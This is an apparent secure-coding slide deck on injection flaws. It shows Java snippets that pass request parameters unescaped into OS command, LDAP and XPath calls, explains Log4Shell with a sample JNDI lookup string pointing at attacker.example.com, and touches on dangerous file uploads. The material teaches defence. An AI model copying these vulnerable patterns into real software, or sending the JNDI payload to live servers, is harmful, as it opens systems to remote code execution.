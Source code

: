 Take care not to push them up to any public git repos!

---

## Injection Examples Beyond SQL

### OS Commands
```
Runtime.exec(“touch “ + request.getParameter("filename"))
```

### LDAP
```
var answer = new InitialDirContext(env).search(searchBase, "Address=" +
    request.getParameter("address"), searchCtls);
```

### XPath
```
xpath.compile("//items/item[id/text()='" + request.getParameter("item") + "'")
```

The lesson here is that any time you pass off user input for processing, you must be aware of the details of the system that will process it.

> [CWE-77](https://cwe.mitre.org/data/definitions/77.html), [CWE-90](https://cwe.mitre.org/data/definitions/90.html), [CWE-643](https://cwe.mitre.org/data/definitions/643.html) and PCI DSS 6.5.1

---

## Injection Example - log4shell

The Log4Shell ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)) vulnerability is a recent example of a very severe injection vulnerability in a widely used Java component (the log4j v2 logging library).

Specifically, if an attacker could cause an application to log a value containing a string like `${jndi:ldap://attacker.example.com/a}`, the logging library would attempt to interpret that string and make a request to the attacker's site, which could then cause the application to fetch a serialised Java class from the attacker and execute it!

Even worse, Log4j did not provide any mechanism to safely escape user input like this, meaning the only solution was to upgrade to a fixed version.

> https://nvd.nist.gov/vuln/detail/CVE-2021-44228
> https://en.wikipedia.org/wiki/Log4Shell
> https://www.lunasec.io/docs/blog/log4j-zero-day/

---

## Unrestricted Upload of File with Dangerous Type

Another common variation, especially in scripting language environments, is the attacker uploading a file containing, say, PHP code, then arranging for the file to be loaded by something, say mod_php, which will execute it.
